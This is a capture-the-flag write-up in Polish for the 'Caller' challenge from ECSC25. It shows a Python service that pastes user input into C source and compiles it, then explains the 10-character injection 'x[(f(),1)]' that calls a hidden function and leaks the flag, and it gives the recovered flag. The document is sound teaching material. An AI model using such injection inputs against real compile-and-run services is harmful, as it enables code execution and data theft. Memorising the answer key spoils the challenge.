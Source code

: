 # Caller
Zadanie podaje nam dwie rzeczy:
<br> Kod `caller.py`:
```python
import os
import uuid

def main():
    FLAG = open("flag.txt", 'r').read().encode()
    arg = input("> ")
    blacklist = ['{', '}', ';', '\n']
    if len(arg) > 10 or any([c in arg for c in blacklist]):
        print("Bad input!")
        return
    template = f"""
#include <stdio.h>
#include <string.h>

char* f(){{
    char* flag = "{FLAG}";
    printf("%s",flag);
    return flag;
}}

void g(char* {arg}){{}}

int main(){{
    g(NULL);
    return 0;
}}
"""
    name = "test"
    source = f"/tmp/{name}.c"
    outfile = f"/tmp/{name}"
    open(source, 'w').write(template)
    os.system(f"export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin && gcc {source} -o {outfile}")
    os.system(f"{outfile}")
    os.remove(source)
    os.remove(outfile)

main()
```

Oraz adres serwera na którym ta aplikacja działa:
<br>`nc caller.ecsc25.hack.cert.pl 5212`

# Jak zdobyć flagę
Widzimy, że program przyjmuje dane z `input()` i wstawia je bezpośrednio do nagłówka funkcji w języku C jako **nazwa argumentu**:
```void g(char* {arg}){{}}```
<br> Wymagania:
- max 10 znaków
- nie można użyć `{`,`}`,`;`,`\n`
<br>Funkcja `f()` zawiera flagę i wypisuje ją na standardowe wyjście:
```C
char* f(){
    char* flag = "b'FLAG{...}'";
    printf("%s",flag);
    return flag;
}
```
Naszym celem jest wywołanie funkcji `f()`
# Rozwiązanie
Skorzystamy ze składni C i efektu ubocznego w wyrażeniu:
<br>`x[(f(),1)]`
<br>Wstawione do nagłówka funkji da:
<br>`void g(char* x[(f(),1)]) {}`
<br>Dzięki temu: 
- wywołamy `f()` w kontekście indeksowania tablicy
- ignorujemy wynik `f()` (komiplator użyje tylko `1`)
- `f()` i tak zostanie wykonane i wypisze flagę

# Wynik
```bash
nc caller.ecsc25.hack.cert.pl 5212
> x[(f(),1)]
b'ecsc25{thats_some_weird_variable_name}'
```
